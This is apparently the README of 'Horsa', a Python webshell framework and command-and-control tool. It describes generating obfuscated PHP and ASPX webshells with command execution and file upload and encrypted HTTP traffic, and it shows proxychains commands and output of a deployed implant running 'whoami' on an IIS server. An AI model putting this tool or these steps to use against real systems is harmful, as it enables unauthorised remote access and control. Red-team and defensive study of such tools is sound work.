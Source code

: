 
```
-@@@@@@@@@@@%@@@@%#*+==---=-------=--=====================-==========--==-==--====================-=
-@%@@@@@@@@@@@%%%%===-----------+-----:::::::::----++------:::--:::::-+*++=+=*+-==:::::::::::::::::=
-@@@@@@@@@@@@%@@@@@@@+------=-:-::::::::::::::::-+=--:-:----:-:::-::::=##******=+::::::::::::::::::-
=@@@@%@@@@@%%@@@@@@@@@@@:::::-::::::::::::::::::--=-:-:-:-=--:::-+---::+#*#*#*##+::::::::::::::::::-
-**#%@@@@%%#*=@@@@@@@@@@@@--===--------:::::::::::::::::---::::::=::::::-+*#%%%==*:::::::::::::::::-
=*+++%@%@+***++@@@@@@@@@@@@@+++===-------::::::::::::::::::::::::::::-::+*#%%%%#=-:::::::::-:::::::=
-*++***+==+**#*++@@@@@@@@@@@@@%+===------::::::::::::::::::::::::::::---:*+##%**++:::::-=:-:-:::-::-
=###***+++*##*+***#@@@@@@@@@@@@@@==--------::::::::::::::::::::::::::::+=*###%%%%%*+-:=--::-=::::::-
=%%%%%%######***###*@@@@@@@@%@@@@@@--------:::::::::::::::::::::::::::::=****+*#**+*+===-::-:-----=-
=@@%#%%%%%%####***+**+@@@@@@@@@@@@@@@=----:::::::::::::::::::::::::::::-+*+=+++++++++===---:-::-----
=%%%%##%#%#####*******+@@@@@@@@@@@@@@@@%-::::::::::::::::::::::::::::::-+++===*+=+*++**+=--:::::::--
=%%###*###***##**++++++==@@@@@@@@@%@@@@@@@:::::::::::::::::::::::::::::::---+==-----=---::::::::::--
=####*********+++++=======-@@@@@@@@@@@@@@@@@::::::::::::::::::::::::::::::-::+-====-=::::::---:::::-
=####*******++++=========---@@@@@@@@@@@@@@@@@@=:::::::::::::::::::::::::::::::::--+--:---:::---::::-
=#####*****++===---=---------:@@@@@@@@@@@@@@@@@@=:::::::::::::::::::::::::::::::::::--::---:--::-::-
=#########**+=+=---=----:::::::@@@@@@@@@@@@@@@@@@@:::::::::::::::::-:=*::::::::::::::::::-==-::::::-
=##########*++*+++++=---:--::--:@@@@@@@@@@@@@@@@@@@=-::::::::#@@@@@@@@@@@:::::::::::::-:---::::::::-
=*##+#%####@@@@@@*###*=+++=-------@@@@@@@@@@@@@@@@@@@=@@@@@@@@@@@@@@@@@@@@::::::::::-:-------::::::-
=*##########%@@@@@@+**+@%++=--:::::-@@@@@@@@@@@@@@@@@@@@@@@@%%@@@@@@@@@@@@@:::::::::===+==-:::-::::-
=#**##########*@@@@@@@@@@+=-::::::::-#@@@@@@@@@@@@@%%%@@@@@@@@@@@@@@@@@@:::::::::::--**++*+-:::::::-
=*****######*##**@@@@@@%@---::::*@@@@@@@@@@@%%%%%%%%%%%@@@@@@@@@@++@::::::::::::::::-+*####*=--::::-
=****#####********+@@@@@@#%@@@@@##@@#@@@@@@@@%%%%%%@@@@@@@@:::::::#:::::::::-::::----++**##*+---:::-
=++***#******+=---@@@@@@@@@@@@##%##%%@@@@@@@@@@@@@@@@@@@@@@@:::::::::::::::-=:-:==----=-=*#***---::-
==+********+++--:@@@@@@@%%%@@@@@@%%%%%@#:::::@@@@@@@@@@@@@@@@:::::::::::::::----+++------=+****+===-
==++******+++---:-::-:::::@@@@@@:::::::::::::::@@@@@@@@@@@@@@*::::::::::::::::=+++-==----:-=++**+==-
==+++*++++==+=--------------:==-::::::::::::::::#@@@@@@@@@@@@@::::::--:::::-::---=--===----:-==+++=-
=-=++=+**+++=-=-=------------::::::::::::::::::::::@@%@@@@@@@@@:::::::::::::::::------=+=-::::--==--
=-==+++++++==========-=----::::-:::::::::::::----:::::#@@@@@%@@@:--:::::::::::::::---------::::::::-
=-===++++++=++++=======--=--------::::::::::--=-::::::::+%@@%%@@#:::--:::::::::::::::------::::::::-
=---====++++++++++=--=====--=------:::::::::::--:::::::::::%@@@@@:::---:::::::-:::::::-----::-:::::-
=-----===++++++*++++=====--=-==----:::::-:::--:::::-:::::::::::::::::::---:::::::::::-------:::::::-
=---------=+++++++++++=====--------------:::::::::::::::::::::::::::::::::::--:--:------:---:::::::-
=-----------================--=--=------:-:::::::::::::::::::::::::::::::::----------::::::-:::::::-
=--------:-------------==-==------==--::::::::::::::::::::::::::::::::::::::::-:------:::::::::::::-
=-------:::::-----------------------=---:::::::::::::::::::::::::::::::::::::::::----:-:::::::---::-
=---------::::::::------------------------:::::::::::::::::::::::::::::::::::::::::-::::::::-::-----
=----------:::::::------:--:--:---::---------::::::::::::::::::::::::::::::::::::::::::::::::::-----
=:------:-------:::-:::::::::::-::::::-------::::::::::::::::::::::::::::::::::::::::::::::::::::::-
=::-------------:::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::-:--:--
==============================================--=-=----------------:::::::::::::::::::::::::-:-:-=--
```
![Python](https://img.shields.io/badge/python-3.11-blue.svg)
![Version](https://img.shields.io/badge/release-N/A-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

The Airspeed Horsa was a British military glider used during World War II. It was designed by the British manufacturer Airspeed Limited in response to a requirement from the British military for a large transport glider that could carry troops in support of airborne operations.

Despite being a large and cumbersome aircraft, was well-liked by the troops who used it, especially during the Normandy landings in June 1944, where it played a crucial role.

## [+] Overview

Horsa is a **webshell framework and command-control (C2)** made in Python. The project is built around two core functions. Alternatively, the Python's wrapper can generate webshells in ASP.NET or PHP on fly or interact with agents deployed on targets.

The content of the HTTP(S) communications between the wraper and a deployed webshell is #XOR encrypted and base64-encoded. 

>[!WARNING]
>Note the user-agent (UA) and the XOR key can be configured through the custom command-line interface (CLI). 

The Horsa webshell's have **working but limited capabilities**, such as:
- **command execution** through dangerous native functions (PHP) or cmd.exe built-in binary (ASPX)
- **file upload**
- *few PHP functions and download capabilities may be added in the future (maybe not)*

The PHP template used to generate new agent is **lightly obfuscated**. The ASP.NET may soon benefit from a similar treatment.

The whole project is **object oriented** and structured as follow:
- `main.py`: Python's wrapper entry point
- `core/session.py`: this class is related to the core functionalities of Horsa (generate, interact)
- `core/handler.py`: the handler class builds commands that can be interpreted by Horsa's agents
- `core/request.py`: this class handles the communication between the wrapper and the agents
- `core/config.py`: contains parameters configurable to customize the project
- `output/`: generated webshells are written here
- `implant/`: webshell templates can be found here (ASP.NET and PHP)

## [+] Recommended setup

After`git clone` the project, you should a create a clean Python's virtual environment and install the requirements using `pip` tool:
```bash
cd horsa
python -m virtualenv horsa-venv
source horsa-venv/bin/activate/
pip3 install -r requirements
```
## [+] Usage

The Python wrapper is user-friendly. To generate an ASP.NET or a PHP webshell, use the following command:

```shell
# proxychains -q rlwrap python3 main.py --generate --key mypassword --lang aspx --url http://10.0.4.195/test.aspx

██   ██  ██████  ██████  ███████  █████  
██   ██ ██    ██ ██   ██ ██      ██   ██ 
███████ ██    ██ ██████  ███████ ███████ 
██   ██ ██    ██ ██   ██      ██ ██   ██ 
██   ██  ██████  ██   ██ ███████ ██   ██ 
+ php/aspx webshell command & control +

[*] Initializing Horsa
[*] Generating an Horsa webshell
+ filename: test.aspx
+ language: aspx
+ auth-key: mypassword
[+] Horsa webshell in aspx available at output/test.aspx
[+] You may deploy this webshell then run Horsa on --interact mode
[+] Exiting now!
```

Remember, you can get help to use the CLI by typing the following command in a shell:

```bash
python3 main.py --help
```

To interact with a deployed agents, use the following commands:

```bash
# proxychains -q rlwrap python3 main.py --interact --key mypassword --lang aspx --url http://10.0.4.195/test.aspx

██   ██  ██████  ██████  ███████  █████  
██   ██ ██    ██ ██   ██ ██      ██   ██ 
███████ ██    ██ ██████  ███████ ███████ 
██   ██ ██    ██ ██   ██      ██ ██   ██ 
██   ██  ██████  ██   ██ ███████ ██   ██ 
+ php/aspx webshell command & control +

[*] Initializing Horsa
[+] Horsa webshell found on target
[*] Use :help to list built-in commands
+ target: http://10.0.4.195/test.aspx
+ user-agent: hora-ws
+ language: aspx
+ auth-key: mypassword
DefaultAppPool@TESTAPP1: C:/inetpub/wwwroot/]$ :shell whoami
iis apppool\defaultapppool
```

## [+] Credits
A special thanks goes to :
- **[weevely3](https://github.com/epinna/weevely3)** is the mother-of-all the webshell framework projects. You know what I mean, and if you not, just try this piece of masterwork.
- **[SharPyShell](https://github.com/antonioCoco/SharPyShell)** was vital to better understand how to use ASP.NET to get a working .aspx agent. His project is far more achieved than I could ever imagined regarding Horsa. Kudo to @antonioCoco
